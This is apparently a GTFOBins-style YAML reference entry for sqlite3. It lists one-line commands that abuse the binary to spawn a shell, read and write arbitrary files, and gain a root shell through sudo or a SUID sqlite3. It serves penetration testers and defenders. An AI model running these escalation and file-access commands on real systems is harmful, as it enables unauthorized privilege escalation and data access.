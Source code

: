 ```yaml
---
functions:
  execute-interactive:
  - code: sqlite3 /dev/null '.shell /bin/sh'
  file-write:
  - code: |
      LFILE=file_to_write
      sqlite3 /dev/null -cmd ".output $LFILE" 'select "data";'
  file-read:
  - code: |
      LFILE=file_to_read
      sqlite3 << EOF
      CREATE TABLE t(line TEXT);
      .import $LFILE t
      SELECT * FROM t;
      EOF
  sudo-enabled:
  - code: sudo sqlite3 /dev/null '.shell /bin/sh'
  suid-limited:
  - code: "./sqlite3 /dev/null '.shell /bin/sh'"
---
```

